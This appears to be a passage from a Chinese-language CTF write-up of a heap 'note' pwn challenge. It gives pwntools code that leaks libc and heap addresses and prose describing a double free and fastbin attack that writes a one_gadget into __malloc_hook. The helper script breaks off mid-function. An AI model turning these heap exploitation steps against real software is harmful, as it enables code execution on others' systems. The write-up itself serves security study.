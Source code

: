 ```python
new_note("128",b"a"*0x10+b"\x01",b"a"*128)
new_note("103",b"b"*0x10+b"\x01",b"b"*16)
new_note("103",b"c"*0x10+b"\x01",b"c"*16)
new_note("103",b"d"*0x10+b"\x01",b"d"*16)
del_note(0)
del_note(1)
del_note(3)
del_note(2)

change_note(0,b"\x00",b"\x01")
change_note(3,b"\x00",b"\x01")
show_note(0)
r.recvuntil("Content:")
base_add=u64(r.recv(6).ljust(8,b"\x00"))-0x3C4B78
show_note(3)
r.recvuntil("Content:")
heap_add=u64(r.recv(6).ljust(8,b"\x00"))-0x10a0 #闲着也是闲着,把heap也泄露了,万一用得上呢?
del_note(3)

print(hex(base_add))
print(hex(heap_add))

```

那么这时,有的师傅(没错,就是我)又不知道该干啥了.但万能的互联网告诉我们,malloc有一个机制叫做malloc_hook~~(是不是可以翻译成卖钩)~~.假如我们向malloc_hook指针放入一个函数的地址,那么程序在执行malloc之前,就会首先执行malloc_hook指针指向的函数,这个机制的本意是通过malloc_hook,让开发者可以在malloc申请内存之前进行一些额外的检查,但这正好为我们使用one_gadget解题提供了方便.

接下来的一切自然是顺理成章.通过double_free`chunk3`创造出一块重叠的chunk,之后将chunk3的\*fd移动到合适的位置截断地址,以使程序在进行检查时将我们截断出的`\x7f`作为chunk_size进行处理,进而与我们0x68大小的data_size(数据域大小,加上pre_size和chunk_size占用的空间正好是0x78)相匹配以绕过检查,并写入one_gadget.最后,我们再次进行malloc,执行malloc_hook中的one_gadget.

```python
from pwn import *

context.log_level = 'debug'
context.arch = 'amd64'
context.terminal = ['tmux','splitw','-h']

def new_note(lfn,name,content):
    r.sendline("1")
    r.recvuntil("your note?")
    r.sendline(lfn)
    r.recvuntil("content:")
    r.send(name)
    sleep(.1)
    r.send(content)
    r.recvuntil("Done!")
    return
def show_note(index):
    index=str(index)
    r.sendline("2")
    r.recvuntil("Index:")
    r.sendline(index)
    sleep(.1)
#    r.recv()
def del_note(index):
    index=str(index)
    r.sendline("3")
    r.recvuntil("Index:")
    r.sendline(index)
def change_note(index,char,change):
    index=str(index)
    r.sendline("4")
```